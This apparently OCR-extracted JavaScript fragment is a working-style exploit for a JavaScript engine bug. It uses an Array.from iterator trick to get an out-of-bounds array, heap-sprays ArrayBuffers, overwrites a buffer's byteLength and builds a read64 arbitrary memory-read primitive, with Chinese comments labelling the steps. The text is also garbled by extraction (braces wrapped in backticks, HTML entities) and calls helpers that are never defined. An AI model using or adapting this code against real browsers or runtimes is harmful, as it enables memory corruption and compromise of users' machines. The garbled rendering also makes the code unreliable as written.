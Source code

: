 ```

function u64_h(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(4,true);
`}`


let obj = `{``}`;

var spray_size = 0x1000;
var arr = new Array(spray_size);

let oobArray = [];
//转为double array
oobArray[0] = 1.1;
oobArray.length = 0;
let maxSize = 1024*8;

Array.from.call(function() `{` return oobArray `}`, `{`[Symbol.iterator] : _ =&gt; (
  `{`
    counter : 0,
    next() `{`
      let result = this.counter++;
      if (this.counter &gt; maxSize) `{`
        oobArray.length = 0x1;
        //堆喷
        for (var i=0;i&lt;spray_size;i++) `{`
           arr[i] = new ArrayBuffer(0x1234);
        `}`
        return `{`done: true`}`;
      `}` else `{`
        return `{`value: result, done: false`}`;
      `}`
    `}`
  `}`
) `}`);

var backing_store_h = u64_h(oobArray[5]);
var backing_stroe_l = u64_l(oobArray[5]);
print(backing_store_h.toString(16) + backing_stroe_l.toString(16));
//修改ArrayBuffer的byteLength
oobArray[4] = p64f(0,0x666666);

var oob_buf;
//寻找被成功修改的那个ArrayBuffer
for (var i=0;i&lt;spray_size;i++) `{`
   if (arr[i].byteLength != 0x1234) `{`
      oob_buf = arr[i];
      print("found!!" + arr[i].byteLength);
   `}`
`}`

if (oob_buf == null) `{`
   console.log("error!");
`}`

var oob_dv  = new DataView(oob_buf);

function read64(addr_h,addr_l) `{`
   oobArray[5] = p64f(addr_l,addr_h);
   return oob_dv.getFloat64(0,true);
`}`

```